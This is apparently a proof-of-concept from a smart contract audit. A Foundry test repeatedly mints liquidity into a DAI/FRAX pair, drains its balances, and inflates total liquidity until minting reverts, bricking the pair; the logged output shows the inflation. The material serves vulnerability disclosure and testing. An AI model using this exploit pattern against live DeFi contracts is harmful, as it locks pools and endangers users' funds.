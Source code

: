 ```solidity

    function testDestroyPair() public {
        deployCoins();
        deployPairCoins();
        deal(address(DAI), address(this), 100 ether);
        deal(address(FRAX), address(this), 100 ether);

        deployPairFactoryAndRouter();
        //
        gaugeFactory = new GaugeFactory();
        bribeFactory = new BribeFactory();
        gaugePlugin = new GaugePlugin(address(DAI), address(FRAX), address(owner2));
        voter = new Voter(address(escrow), address(factory), address(gaugeFactory), address(bribeFactory), address(gaugePlugin));

        escrow.setVoter(address(voter));
        factory.setVoter(address(voter));
        // Set tx.origin to allow governor check to pass when creating pair
        vm.startPrank(0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496, 0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496);
        Pair pair = Pair(factory.createPair(address(DAI), address(FRAX), true));
        for(uint i = 0; i < 11; i++) {
            DAI.transfer(address(pair), 10_000_000);
            FRAX.transfer(address(pair), 10_000_000);
            uint liquidity = pair.mint(address(this));
            console.log("pair:", address(pair), "liquidity:", liquidity);
            console.log("total liq:", pair.balanceOf(address(this)));
            drainPair(pair, FRAX.balanceOf(address(pair)) , DAI.balanceOf(address(pair)));
            console.log("DAI balance:", DAI.balanceOf(address(pair)));
            console.log("FRAX balance:", FRAX.balanceOf(address(pair)));
            require(DAI.balanceOf(address(pair)) == 1, "should drain DAI balance");
            require(FRAX.balanceOf(address(pair)) == 2, "should drain FRAX balance");
        }
        DAI.transfer(address(pair), 10_000_000);
        FRAX.transfer(address(pair), 10_000_000);
        vm.expectRevert();
        pair.mint(address(this));
    }
```
Run command: `forge test --match-test testDestroyPair  -vv`
Output:
```javascript
[PASS] testDestroyPair() (gas: 51917763)
Logs:
  pair: 0x181a7469a02658E0E9b0341cd64B62e5D0C30602 liquidity: 9999000
  total liq: 9999000
  DAI balance: 1
  FRAX balance: 2
  pair: 0x181a7469a02658E0E9b0341cd64B62e5D0C30602 liquidity: 50000000000000
  total liq: 50000009999000
  DAI balance: 1
  FRAX balance: 2
 ...SNIP...
  pair: 0x181a7469a02658E0E9b0341cd64B62e5D0C30602 liquidity: 19531281250021875008750002187500350000035000002000000050000000000000
  total liq: 19531285156278125013125003937500787500105000009000000450000009999000
  DAI balance: 1
  FRAX balance: 2
  pair: 0x181a7469a02658E0E9b0341cd64B62e5D0C30602 liquidity: 97656425781390625065625019687503937500525000045000002250000050000000000000
  total liq: 97656445312675781343750032812507875001312500150000011250000500000009999000
  DAI balance: 1
  FRAX balance: 2
```